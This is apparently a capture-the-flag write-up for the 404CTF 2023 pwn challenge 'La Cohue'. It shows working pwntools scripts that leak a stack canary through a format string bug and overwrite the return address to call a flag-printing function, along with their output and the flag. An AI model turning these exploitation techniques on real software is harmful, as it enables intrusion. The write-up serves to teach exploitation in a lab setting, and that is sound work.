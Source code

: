 ```yaml
---
title: CTFs | 404CTF2023 | La-Cohue
author: Kaiba_404
date: 2023-06-07
categories: [CTFs, 404CTF2023, La-Cohue]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/lacohue
---
```



# La Cohue


![la_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a853e57b-5ee3-429a-ae13-2eced0433113)

The challenge gives us an ELF file [la_cohue](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/tree/main/_posts/CTFs/404CTF2023/pwn/files/la_cohue). Using the command `file la_cohue` and `checksec la_cohue` to get some infomations about it.

```shell
$ file la_cohue 
la_cohue: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=56ad00dfd261c3bad8d131b25708d9c7e861ccda, not stripped
```
```shell
$ checksec la_cohue
[*] '~/404CTF/la_cohue'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
From the provided commands output, we can gather some interesting information about the file. It is identified as an "ELF 64-bit" file and it appears to be "not stripped". It's protected by `NX` (We can't run the shellcode by injecting it into the stack) and `Canary found` (That is to say that this file has canary in the stack when executing). To further analyze the file and gather more information for potential exploitation, we can utilize Ghidra, a powerful reverse engineering tool. Ghidra will allow us to read and analyze the file, providing deeper insights into its structure and functionality.

![main_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a080a22c-87ff-48f0-ac23-75ecc80ecebe)

The `main` function isn't all that interesting, so we'll take a look at the `choice` function.

![choice_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/33f91c60-1caa-4d1f-ab0e-c82c4092e87f)

Based on the information available, it appears that the mentioned function is vulnerable to two specific types of attacks: Format String Vulnerability and Return-Oriented Programming (ROP) as shown in the images below.

***Format String Vuln***

![fmt_str](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/b0d89299-f5fa-44c8-b836-2d209ec44009)

***ROP***

![size_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/250fc6be-ba32-4ca3-b70e-06c9cb5bc0da)

![ROP_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/1defc0f7-8d3b-490f-a4d1-34546889814a)

We also find a very interesting function in this ELF file. It's the `canary()` function. When invoked, this function will provide us with the flag. It suggests that calling this specific function is crucial to obtaining the desired flag.

![canary_func](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/6e9577e4-982e-4e1b-939e-0b39e4e82c04)

## Exploit Scenario

**Step 1**: Taking advantage of the Format String vulnerability to leak `canary` (Canary is an 8 byte hexa number that always ends with two zeros and the rest of the numbers change randomly each time we execute the  ELF file)

**Step 2**: After successfully leaking the canary value, we can proceed to bypass the canary binary protection. We have identified that the ELF file lacks Position Independent Executable (PIE) protection, meaning that the address of each instruction remains the same every time the program is launched. Leveraging this knowledge, we can employ Return-Oriented Programming (ROP) techniques.

To call the canary() function using ROP, we can construct a payload with the following format:

`payload = 'A'*72 + canary + 'B'*8 + address_of_canary_function
`

## Code 

### fuzz.py - leak canary

```python
from pwn import *

context.update(arch="amd64", os="linux")

# r = process("./la_cohue")
r = remote("challenges.404ctf.fr", 30223)

r.recvuntil(b">>>")
r.sendline(b'2')
p_A = b""
p50_p = b" %p" * 20
r.sendline(p_A + p50_p)
r.recvuntil(b"[Vous] : ")
result = str(r.recvline()).split(' ')
for i in range(len(result)):
	print("[" + str(i) + "]: " + result[i])
	
r.close()
```

```shell
[+] Opening connection to challenges.404ctf.fr on port 30223: Done
[0]: b'
[1]: 0x7ffce2c08980
[2]: 0x7f88d94cf8c0
[3]: (nil)
[4]: 0x9
[5]: 0x7f88d94cf8d0
[6]: (nil)
[7]: 0x20000e760
[8]: 0x2520702520702520
[9]: 0x2070252070252070
[10]: 0x7025207025207025
[11]: 0x2520702520702520
[12]: 0x2070252070252070
[13]: 0x7025207025207025
[14]: 0x2520702520702520
[15]: 0xa70252070
[16]: 0x7ffce2c0b0a0
[17]: 0x3ac7b7ded693ef00
[18]: 0x7ffce2c0b0a0
[19]: 0x400b06
[20]: 0x7ffce2c0b188\n'
[*] Closed connection to challenges.404ctf.fr port 30223
```

After running the file multiple times, we have observed that the canary is located at position [17]. Based on this information, we can construct the exploit program as follows:

```python
from pwn import *

context.arch = "amd64"
context.os = "linux"
# context.binary = "./la_cohue"

# p = process("./la_cohue")
p = remote("challenges.404ctf.fr", 30223)

p.recvuntil(b">>>")
p.sendline(b"2")
p.sendline(b'%17$p')
re_cana = p.recvuntil(b'Que')[9:-5]
canary = int(re_cana.decode(),16)
log.success(f'Canary: {hex(canary)}')


p.recvuntil(b">>>")
p.sendline(b'1')
p.recv()
p.sendline(b'A'*72+p64(canary)+b'B'*8+p64(0x400877))
p.recv()
p.sendline(b'3')
print(p.recvall().decode())
```

```
[+] Opening connection to challenges.404ctf.fr on port 30223: Done
[+] Canary: 0x5daaac6def037000
[+] Receiving all data: Done (321B)
[*] Closed connection to challenges.404ctf.fr port 30223
[Francis] : Je vous laisse mettre votre plan à éxécution.

Que faites-vous ?

1 : Aller voir Francis
2 : Réfléchir à un moyen de capturer le canari
3 : Vaquer à vos occupations
>>> Je vous suis infiniment reconnaissant d'avoir retrouvé mon canari.
404CTF{135_C4N4r15_41M3N7_14_C0MP46N13_N3_135_141553Z_P45_53U15}
```


**Flag:** `404CTF{135_C4N4r15_41M3N7_14_C0MP46N13_N3_135_141553Z_P45_53U15}`